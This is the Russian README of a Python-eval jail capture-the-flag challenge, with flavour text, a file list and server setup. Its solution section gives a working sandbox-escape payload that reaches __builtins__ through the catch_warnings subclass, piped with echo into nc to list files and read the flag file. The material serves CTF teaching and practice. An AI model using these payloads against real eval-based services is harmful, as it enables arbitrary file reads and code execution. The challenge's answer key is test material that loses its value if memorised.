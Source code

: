 Python eval
===========
> \- Змеи... Вечно они всё портят... Они украли мою прелесть и спрятали здесь: (адрес и порт)... Подлые змеи...  
> \- Ходят слухи, что ты говоришь на парселтанге. Помоги забрать прелесть у наглых змей, а я помогу тебе спасти твоих друзей.  
> \- Здесь всё, что я знаю об этом месте: (исходник(eval.py))  
> \- May the Dragon Force be with you...  

Файлы
-----
1. **eval.py** - Псевдо исходный код, который доступен участникам
2. **159fe327e79316e0f9169fa326fafbd1.txt** - Файл с флагом
3. **blacklist.txt** - Файл с запрещенными словами
4. **server.py** - Исходный код

Запуск
------
Необходимо создать пользователя с правами только на чтение файла с флагом.  
Файл с сервером, жалетельно, положить отдельно от файла с флагом, и запускать его, из папки с флагом.  
```
python3 server.py [-h] [-host HOST] [-p PORT] [-cpu CPU] [-t TIMEOUT]
```
host - Адрес хоста, по умолчанию - socket.gethostbyname(socket.gethostname())  
port - Порт, по умолчанию 1337  
cpu - Количество одновременно запущенных процессов, по умолчанию 16  
timeout - Время жизни одного процесса, по умолчанию 3 секунды  

Решение
-------
1. Научиться получать доступ к \__builtins__  
    ```
    [x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__
    ```
2. Получить список файлов в папке  
    ```
    echo "[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').listdir()" | nc адрес порт
    ```
3. Прочесть флаг  
    ```
    echo "[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['open']('имя файла с флагом').read()" | nc адрес порт
    ```

---

[Описание проблемы](https://habrahabr.ru/post/221937/)  
[Источник](https://www.reddit.com/r/Python/comments/hftnp/ask_rpython_recovering_cleared_globals#thing_t1_c1v372r)  
[Еще полезная ссылочка](http://www.floyd.ch/?p=584)
